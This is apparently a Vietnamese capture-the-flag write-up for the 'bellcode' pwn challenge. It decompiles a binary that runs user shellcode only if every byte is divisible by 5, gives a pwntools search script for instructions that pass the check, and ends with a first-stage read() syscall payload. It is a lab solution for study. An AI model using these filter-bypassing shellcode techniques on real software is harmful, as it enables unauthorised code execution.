



**1. Tìm lỗi**

Dùng lệnh 'file' kiểm tra ta có:

```
bellcode: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=da59479ea84f3486e2045ab7bd8f81df1e7625a1, for GNU/Linux 3.2.0, not stripped
```

Mở bằng IDA-64 ta được source như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 i; // [rsp+0h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  mmap((void *)0xFAC300, 0x2000uLL, 7, 33, -1, 0LL);
  puts("What's your shellcode?");
  fgets((char *)0xFAC300, 4096, stdin);
  for ( i = 16433920LL; i <= 0xFAD2FF; ++i )
  {
    if ( *(_BYTE *)i % 5u )
    {
      puts(aSeemsThatYouTr);
      exit(-1);
    }
  }
  puts("OK. Running your shellcode now!");
  MEMORY[0xFAC300]();
  return 0;
}
```

- Hàm mmap được sử dụng để cấp phát một vùng nhớ mới với kích thước 0x2000 byte và quyền truy cập đọc/ghi. Địa chỉ bắt đầu của vùng nhớ được cấp phát được chỉ định là 0xFAC300. Lệnh này được sử dụng để lưu shellcode được nhập vào từ người dùng.
- Vòng lặp for được sử dụng để kiểm tra tính hợp lệ của shellcode. Vòng lặp kiểm tra từ địa chỉ 0xFAC300LL (hay 16433920 trong hệ thập phân) đến địa chỉ 0xFAD2FF (hay 16646143 trong hệ thập phân). Với mỗi địa chỉ, nếu giá trị byte tại địa chỉ đó không chia hết cho 5, chương trình sẽ in ra chuỗi "Seems that you try to exploit me :(" và thoát khỏi chương trình với mã lỗi -1.
- Cuối cùng, shellcode được thực thi bằng cách gọi hàm tại địa chỉ 0xFAC300.

**2. Ý tưởng**

Để viết được shellcode thì chúng ta cần phải vượt qua lúc kiểm tra byte chia hết cho 5 và xem các thanh ghi đang có gì khi bắt đầu shellcode.

Dưới đây là hàm để chúng ta vượt qua kiểm tra byte:

```
def checkShell(ins, shellcode):
    print("Checking: ", ins, end='\r')
    for i in shellcode:
        if (i % 5 != 0):
            return 0
    print(ins, "-->", hexlify(shellcode).decode())
    return 1

def searchAdd():
    regs_16 = ['al', 'bl', 'cl', 'dl', 'si']
    regs_32 = ['eax', 'ebx', 'ecx', 'edx', 'edi', 'esi']
    regs_64 = ['rax', 'rbx', 'rcx', 'rdx', 'rdi', 'rsi', 'r8', 'r9', 'r10', 'r11', 'r12']
    regs = [regs_16, regs_32, regs_64]

    ins = f'syscall'
    checkShell(ins, asm(ins, arch='amd64'))

    for i in regs:
        for j in i:
            ins = f'mov {j}, 0'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'mov {j}, 0xff'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'add {j}, 0xff'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'sub {j}, 0xff'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'dec {j}'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'inc {j}'
            checkShell(ins, asm(ins, arch='amd64'))

    for j in regs[2]:
        ins = f'pop {j}'
        checkShell(ins, asm(ins, arch='amd64'))
        ins = f'push {j}'
        checkShell(ins, asm(ins, arch='amd64'))

if args.FINDINS:
    searchAdd()
    exit()
```

Kết quả có được như sau:



CHúng ta thấy được có thể kiểm soát 1 phần 'eax' nhưng nếu quá lớn thì có thể kiểm soát qua 'rdx', 'rdi'.

Tiêp theo là đi kiểm tra xem các thanh ghi đang như thế nào khi bắt đầu bước vào shellcode.



Ta thấy trước khi nhảy đến shellcode thì chương trình đã gán 'rax' bằng 0. Điều này đồng nghĩa chúng ta có thể gọi hàm 'read'.

Kiểm tra xem địa chỉ 0xFAC300 trong mmap đã tạo có thể ghi được hay không.



Vậy chúng ta đã chắc chắn được địa chỉ 0xFAC300 có thể được ghi vào.

Ta có thứ tự khai thác như sau:

- Thực hiện 'read()'
- Ghi shellcode vào.

**3. Khai thác**

- Thực hiện 'read()'

Ta có đoạn shellcode đầu tiên như sau:

```
payload = asm(
    'mov esi, 0xfac300\n'+
    'pop rdi\n'*1 +
    'syscall\n'
    , arch='amd64'
)
r.sendlineafter(b'shellcode?\n', payload)
r.interactive()
```

